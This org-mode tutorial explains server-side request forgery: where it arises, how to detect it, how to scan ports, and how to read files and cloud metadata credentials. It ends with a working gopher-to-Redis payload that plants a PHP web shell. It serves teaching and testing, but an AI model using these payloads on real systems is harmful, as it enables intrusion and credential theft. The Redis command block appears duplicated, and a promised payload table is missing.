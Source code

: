 #+title: Server Side Request Forgery
#+author: gabriel

* intro
Server-side request forgery (SSRF) is a web security vulnerability that allows on attacker to trick a target server into sending requests on their behalf, or making it act as the server itself, to other systems.

Fundamentally, it occurs when the application server fetches data from a URL or resource that a user can control, and fails to properly validade this input.

An attacker can use this vulnerability

An attacker can use this vulnerability to make the server send requests to internal network resources that it should not normally have access to (such as databases, administrative panels, other servers), or to the server's own local file system (localhost).

[[./imgs/ssrf.png]]

SSRF vulnerabilities are extremely dangerous because they can bypass firewalls, VPNs, and other network segmentation controls

* where is SSRF found ?
SSRF vulnerabilities can arise in any feature that requires the server to make a server-side HTTP request to a URL or address provided by a user.

** importing data from a URL
Web applications often provide functionality for users to import or upload data via a URL. For example, scenarios like fetching a user's profile picture from a URL

*user-input* ->
https://example.com/avatar.jpg

*vulnerable parameter* ->
avatar_url=https://example.com/avatar.jpg

*attack vector* ->
An attacker could try to access the server's local admin panel by changing this parameter to an internal network address like avatar_url=http://127.0.0.1/admin.

** webhooks
Webhooks are used to send automated notifications from one application to another when an event occurs.

An e-commerce site sends a notification to its inventory management system via a webhook when a new order is placed.

*user-configured URL* ->
https://inventory-system.api/notify

*attack vector* ->
A malicious user could send unauthorized requests to the server's internal services by changing this webhook URL to an address like http://localhost:8080/sensitive-info.

** document and report generator
Some web applications allow users to generate reports in PDF, Word, or other formats by fetching content from URLs.

For example, a service that takes a snapshot of a web page and saves it as a PDF. These services make server-side requests in the background to "render" the content of the provided URL.

*user-input* ->
https://my-blog-post.com

*vulnerable parameter* ->
url_to_convert=https://my-blog-post.com

*attack vector* ->
An attacker might try to read the server's local files and embed them into the generated PDF by changing the parameter to url_to_convert=file:///etc/hosts.

** backend API calls
In modern architectures (especially microservices), it is common for one service to communicate with another internal service.

 Sometimes, a parameter from the client is used to determine which service or endpoint to make a request to on the backend.

 An API that checks the stock status of a product. The client sends a product ID and a store ID. The backend uses this store ID to make a request to the stock service of the respective store.

 *request* ->
 POST /api/stock/check

 *request body* ->
 { "productId": "12345", "storeApi": "http://stock-api-london.internal/" }

 *attack vector* ->
 An attacker could attempt to steal credentials by changing the storeApi value to a sensitive internal API address like http://metadata.internal/latest/credentials

* detecting and exploiting SSRF
The process of detecting and exploiting an SSRF vulnerability typically involves manipulating an input point where the server fetches data from an external source.

** identifying the vulnerable input point
The first step is to find a parameter in the application where it accepts a URL or IP address from the user and makes a server-side request.

For example, let's assume a website has an image_url parameter that allows loading an image from another URL.

*legitimate url request* ->
#+begin_src javascript
GET /loadImage?image_url=https://external-site.com/image.png HTTP/1.1
Host: vulnerable-site.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
#+end_src

*response* ->
#+begin_src javascript
HTTP/1.1 200 OK
Content-Type: image/png
Content-Length: 15234

[PNG image data...]
#+end_src

** basic SSRF test
The most basic method to test for the vulnerability is to make the server send a request to itself (localhost).

*payload request* ->
#+begin_src javascript
GET /loadImage?image_url=http://127.0.0.1/ HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

#+begin_src javascript
GET /loadImage?image_url=https://google.com HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

*possible response and analysis* ->

*successful response* ->
The server might return the HTML content of a service running on it (e.g., an Apache "It works!" page or an admin panel login page). This definitively confirms the vulnerability.
#+begin_src html
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 45

<html><body><h1>It works!</h1></body></html>
#+end_src

*response* ->
#+begin_src html
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 45

<html><body><h1>Google</h1></body></html>
#+end_src

*error messages* ->
 You might receive errors like "Connection refused" or "Invalid file format". Even these errors can be an indicator of the vulnerability.

 This is because the server tried to connect to localhost but failed, either because the port was closed or the returned content was not in the expected format (e.g., an image).

** scanning the internal network and ports
Once the vulnerability is confirmed, attackers can scan the internal network where the server resides. This is used to discover other servers, services, and open ports on the internal network.

*payload request* ->
By trying different port numbers, it's possible to test what other web services are running on the internal network. For example, port 8080 is often used for management panels like Apache Tomcat or Jenkins.
#+begin_src html
GET /loadImage?image_url=http://127.0.0.1:8080 HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

*response anaylises* ->

- *Open Port (Web Service)*: If a web service is running on port 8080, the application will likely return some HTML content (e.g., a login page, a "Welcome" page, or a 401/403 error page). Even if the response is an error like "Invalid image format," its content or size will be different from the response for a closed port. This difference indicates that the port is open and used by a service.
- *Closed Port*: An error like "Connection refused" is received.
- *Filtered Port*: The request will time out.

** using different url schemes
SSRF vulnerabilities are not limited to just http:// and https://. Depending on the library used by the server, other URL schemes can also be used.

*reading local files* ->
This scheme is used to read files on the server's filesystem.

*payload* ->
: file:///etc/passwd

*request* ->
: GET /loadImage?image_url=file:///etc/passwd

*Response* ->
#+begin_src html
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 748

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
#+end_src

*sending complex requests with gopher://* ->
The gopher:// scheme is used to send raw data over TCP, which makes it extremely powerful. With this scheme, you can send custom commands to many services like Redis, SMTP, or databases.

*example(Sending commands to redis)* ->
It might be possible to achieve RCE by sending commands to services like Redis, a key-value store. The payload below sends a SET command to Redis.

 Gopher payloads must be URL-encoded, and %0A is used for line breaks.

 *payload* ->
 : gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aSET%0d%0a$3%0d%0akey%0d%0a$5%0d%0avalue%0d%0a

 *payload explanation* ->
 The payload above is in the RESP (REdis Serialization Protocol) format used by Redis. When the URL-encoded characters (%0d%0a -> \r\n) are decoded, the payload contains the following commands:

 #+begin_src python
*3         # Indicates the command consists of 3 parts (SET, key, value)
$3         # Indicates the first part (SET) is 3 bytes long
SET        # The command
$3         # Indicates the second part (key) is 3 bytes long
key        # The key
$5         # Indicates the third part (value) is 5 bytes long
value      # The value
 #+end_src

The gopher:// scheme sends this raw request directly to port 6379 (the default Redis port) at 127.0.0.1. This makes the web server execute the SET key value command in the Redis database.

The _ character at the beginning of the URL is added as a padding character to prevent clients like curl from skipping the first character.
: GET /loadImage?image_url=gopher://...

** SSRF in cloud environments
If the application is running on a cloud platform like AWS, Azure, or Google Cloud, an SSRF vulnerability can be much more dangerous.

*payload* ->
This service runs at the IP address 169.254.169.254 and contains sensitive information, including temporary security credentials.

*request* ->
#+begin_src php
GET /loadImage?image_url=http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

*response* ->
#+begin_src php
HTTP/1.1 200 OK
Content-Type: application/json

{
  "Code" : "Success",
  "LastUpdated" : "2024-08-08T12:00:00Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "...",
  "Token" : "...",
  "Expiration" : "2024-08-08T18:00:00Z"
}
#+end_src

* common SSRF payloads
The following table lists some basic and advanced SSRF payloads used to achieve different objectives.

These payloads are designed to be injected into a vulnerable parameter, such as http://vulnerable-site.com/page?url=.

* escalating from SSRF to RCE
Although Server-Side Request Forgery (SSRF) is often seen as an information disclosure and network scanning vulnerability, under certain conditions, it can be a stepping stone to Remote Code Execution (RCE).

** abusing Redis for RCE
Redis is a fast, in-memory key-value store, often used for caching or session management.

Developers sometimes deploy Redis to be accessible only from the internal network, without any password protection.

 The attacker uses the SSRF vulnerability and the gopher:// URL scheme to send raw commands to the Redis server. The goal is to make Redis save its database as a PHP web shell into a directory accessible by the web server (e.g., /var/www/html).

The attacker crafts a single Gopher payload to send the following Redis commands in sequence:
- FLUSHALL: Clears the Redis database to get rid of any previous data.
- SET shell "<?php system($_GET['cmd']); ?>": Creates a key named shell and assigns it a string containing a PHP web shell. For safety in this example, we could use a non-executable string like "<?php echo 'Hello'; ?>".
- CONFIG SET dir /var/www/html/: Sets the working directory of Redis to the web server's root directory.
- CONFIG SET dbfilename shell.php: Changes the name of the Redis database backup file to shell.php.
- SAVE: Triggers Redis to write its current dataset (which includes our PHP shell) to the shell.php file on disk.

** the gopher payload
This chain of commands must be converted to the RESP (REdis Serialization Protocol) format that Redis understands, and then URL-encoded. Newlines are represented by \r\n (%0d%0a).

First, we prepare the commands we want to send in the Redis protocol format, separated by newlines (\r\n).
#+begin_src html
*1
$8
FLUSHALL
*3
$3
SET
$5
shell
$32

<?php system($_GET['cmd']); ?>

*4
$6
CONFIG
$3
SET
$3
dir
$13
/var/www/html
*4
$6
CONFIG
$3
SET
$10
dbfilename
$9
shell.php
*1
$4
SAVE
*1
$8
FLUSHALL
*3
$3
SET
$5
shell
$32

<?php system($_GET['cmd']); ?>

*4
$6
CONFIG
$3
SET
$3
dir
$13
/var/www/html
*4
$6
CONFIG
$3
SET
$10
dbfilename
$9
shell.php
*1
$4
SAVE
#+end_src

** URL-Encoded Gopher Payload
The raw commands above are then URL-encoded for use in the Gopher payload. Spaces, special characters, and newlines (%0d%0a) are converted into their corresponding codes.

#+begin_src python
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0AFLUSHALL%0D%0A%2A3%0D%0A%243%0D%0ASET%0D%0A%245%0D%0Ashell%0D%0A%2432%0D%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0D%0A%2A4%0D%0A%246%0D%0ACONFIG%0D%0A%243%0D%0ASET%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0ACONFIG%0D%0A%243%0D%0ASET%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0ASAVE%0D%0A
#+end_src

When this payload is injected into a vulnerable parameter (e.g., image_url), the server will connect to Redis, execute the commands, and create the web shell.
